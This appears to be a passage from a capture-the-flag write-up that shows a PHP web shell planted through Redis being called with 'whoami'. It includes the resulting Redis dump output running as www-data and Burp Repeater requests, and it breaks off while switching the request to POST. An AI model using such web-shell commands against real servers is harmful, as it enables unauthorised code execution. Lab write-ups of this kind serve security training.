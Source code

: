 	http://localhost:8001/ippsec.php?ippsec=whoami

```
REDIS0008� redis-ver4.0.9� redis-bits�@�ctime¨��a�used-mem¸? �aof-preamble���PleaseSubscribe"www-data ����`5.�
```

Let's send this into Burp:

```
GET /ippsec.php?ippsec=whoami HTTP/1.1
Host: localhost:8001
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

<Ctrl+R> to send to Repeater.
<Ctrl+Shift+R> to switch to Repeater tab.
Click Send

```
HTTP/1.1 200 OK
Date: Sun, 09 Jan 2022 12:36:24 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.0.30
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 124

REDIS0008ú	redis-ver4.0.9ú
redis-bitsÀ@úctimeÂ±ÖÚaúused-memÂ¸?
```

Repeater => Right Click (Change request method)

```
POST /ippsec.php HTTP/1.1
Host: localhost:8001
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
```